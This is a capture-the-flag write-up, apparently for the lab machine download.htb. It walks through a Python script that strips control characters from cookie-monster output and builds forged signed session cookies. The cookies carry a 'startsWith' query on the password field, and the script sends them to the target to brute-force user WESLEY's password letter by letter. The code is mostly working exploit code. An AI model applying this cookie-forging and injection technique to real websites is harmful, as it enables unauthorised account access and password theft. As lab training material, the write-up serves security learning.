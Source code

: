 

## Detailed hash brute force script explanation

This code was a pain in the ass to write because of the output that cookie-monster tool gives us. The colors and ascii code caused me to write a large amount of stripping of non printable characters to make sure the cookies are properly being send over. In the next section i'll go over function by function what each piece of code does.

### remove_control_characters
This function is used to strip out all the control characters such as escape's. without this function the output of the cookie-monster tool would be unusable.

```python
def remove_control_characters(s):
    return "".join(ch for ch in s if unicodedata.category(ch)[0]!="C")
```
### generate_all_characters
This function is used to generate all the characters we want to try to brute force. in this case we limited it to all lowercase ascii characters plus digits.
```python
def generate_all_characters():
    characters = string.ascii_lowercase + string.digits
    return characters
```
### createjsonfile
The create json file creates the json file used by cookiemonster to create our new signed cookie. The following querry is used to guess the password based on the startswith parameter. This way we can guess the password letter by letter. After it created the object it saves it as a file cookiemonster will then use right after that.

```python
def createjsonfile(letter,pwd):

  x = pwd+letter
  obj={"flashes":{"info":[],"error":[],"success":[]},"user":{"password": { "startsWith": x } ,"username":"WESLEY"}}
  # Serializing json
  json_object = json.dumps(obj, indent=4)
 
  # Writing to sample.json
  with open("jsoncookie.json", "w") as outfile:
      outfile.write(json_object)

```

### sendrequest
The send request function is the function that sends the request to the webserver. It takes our cookies as input, as well as setup our burp proxy to make sure all the requests we send are in burp for debugging purposes.

```python
def sendrequest(cookies):
    proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080',
    }

    url = 'http://download.htb/home/'
    cookies = {
      'download_session': cookies["download_session"],
      'download_session.sig': cookies["download_session.sig"]
    }
    response = requests.get(url, cookies=cookies,proxies=proxies)
    return response
```
